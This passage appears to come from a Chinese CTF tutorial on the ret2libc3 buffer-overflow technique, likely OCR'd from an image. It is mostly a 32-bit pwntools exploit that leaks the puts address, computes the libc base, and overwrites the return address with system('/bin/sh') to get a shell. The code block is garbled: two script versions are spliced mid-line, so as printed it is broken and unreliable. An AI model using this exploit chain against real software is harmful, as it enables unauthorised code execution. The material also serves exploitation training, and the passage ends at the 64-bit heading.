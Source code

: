 7.再次构造合理的payload2，劫持程序的执行流程，劫持到system("/bin/sh")的真实地址，从而拿到shell。

32位：

```python
from pwn import *

p=processfrom pwn import *
e = ELF("./ret2libc3_32")
libc = ELF("/lib/i386-linux-gnu/libc.so.6") #确定libc库并解析
#libc = ELF("/path/to/libc.so.6")
p = process("./ret2libc3_32")
puts_plt = e.plt['puts'] #puts函数的入口地址
puts_got = e.got['puts']  #puts函数的got表地址
start_addr = e.symbols['_start'] #程序的起始地址
payload1 = b'a' * 112 + p32(puts_plt) + p32(start_addr) + p32(puts_got)
#attach(p, "b *0x0804868F")
#pause()
p.sendlineafter("Can you find it !?", payload1)
puts_real_addr = u32(p.recv()[0:4])  #接收puts的真实地址，占4个字节
print("puts_plt:{}, puts_got: {}, start_addr: {}".format(hex(puts_plt),hex(puts_got), hex(start_addr)))
print("puts_real_addr: ", hex(puts_real_addr)) 
libc_addr = puts_real_addr - libc.sym['puts'] #计算libc库的基地址
print(hex(libc_addr))
system_addr = libc_addr + libc.sym["system"] #计算system函数的真实地址
binsh_addr = libc_addr + next(libc.search(b"/bin/sh"))  #计算binsh字符串的真实地址
payload2 = b'a' * 112 + p32(system_addr) + b"aaaa" + p32(binsh_addr)
#pause()
p.sendline(payload2)
p.interactive()ret2libc3')
puts_plt = 0x08048460
puts_got = 0x0804A018
start_addr = 0x080484D0

payload1 = b'A'*112+p32(puts_plt)+p32(start_addr)+p32(puts_got)
p.sendlineafter("!?",payload1)
puts_addr=u32(p.recv(4))

print("puts_addr:",hex(puts_addr))

offset_puts = 0x000732A0
offset_system = 0x00048170
offset_bin_sh = 0x001BD0D5
libc_system = puts_addr - offset_puts + offset_system
libc_bin_sh = puts_addr - offset_puts + offset_bin_sh

payload2 = b'a' * 112 + p32(libc_system) + p32(1234) + p32(libc_bin_sh)
p.sendlineafter("!?",payload2)
p.interactive()
```

64位：
